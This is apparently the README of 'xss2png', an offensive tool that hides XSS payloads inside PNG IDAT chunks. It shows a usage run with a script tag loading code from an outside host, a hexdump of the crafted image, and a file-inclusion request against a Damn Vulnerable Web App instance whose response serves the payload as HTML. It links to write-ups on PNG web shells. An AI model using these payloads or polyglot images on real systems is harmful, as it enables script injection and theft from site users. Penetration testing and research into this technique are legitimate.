 # xss2png

A simple tool to generate PNG images with XSS payloads stored in PNG IDAT chunks

*Huge thanks to Nathaniel McHugh for sharing his PHP source code with me*

### Usage

```
~/$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
               ____                    
 __  _____ ___|___ \ _ __  _ __   __ _ 
 \ \/ / __/ __| __) | '_ \| '_ \ / _` |
  >  <\__ \__ \/ __/| |_) | | | | (_| |
 /_/\_\___/___/_____| .__/|_| |_|\__, |
                    |_|          |___/
 PNG IDAT chunks XSS payload generator

[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

[i] Generating final PNG output
[!] PNG output saved as: xss.png
```
### Example

<img src="xss.png">

```
~/$ hexdump -C xss.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 79 49 44 41  54 78 9c 63 fc 3c 53 43  |....yIDATx.c.<SC|
00000030  52 49 50 54 20 53 52 43  3d 2f 2f 58 53 53 2e 56  |RIPT SRC=//XSS.V|
00000040  41 56 4b 41 4d 49 4c 2e  43 5a 3e 3c 2f 53 43 52  |AVKAMIL.CZ></SCR|
00000050  49 50 54 3e 20 a0 ff ba  e3 fc ab 7f cf dc 0c 7b  |IPT> ..........{|
00000060  c5 f2 d2 cb 43 f1 c1 fd  db 2a cf df de ff fc ff  |....C....*......|
00000070  f9 87 1f 56 7f ff f2 04  7a 5c bf 72 f7 ca b3 37  |...V....z\.r...7|
00000080  9a 7a 6b 3b fb 18 19 19  46 c1 28 18 05 a3 60 14  |.zk;....F.(...`.|
00000090  8c 82 51 30 0a 46 c1 28  18 05 43 0e 00 00 1b 22  |..Q0.F.(..C...."|
000000a0  26 02 5b 4d 02 76 00 00  00 00 49 45 4e 44 ae 42  |&.[M.v....IEND.B|
000000b0  60 82                                             |`.|
000000b2
````

#### Damn Vulnerable Web App
`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

```
HTTP/1.1 200 OK
Date: Fri, 23 Aug 2019 00:13:37 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3422
Connection: close

�PNG


IHDR  ���yIDATx�c�<SCRIPT SRC=\\XSS.VAVKAMIL.CZ></SCRIPT> �����=s3��K�_s������?��_�X1��	��~���go4��v�322��Q0
F�(�`��Q0
�4�%�۠IEND�B`�
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
```

### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
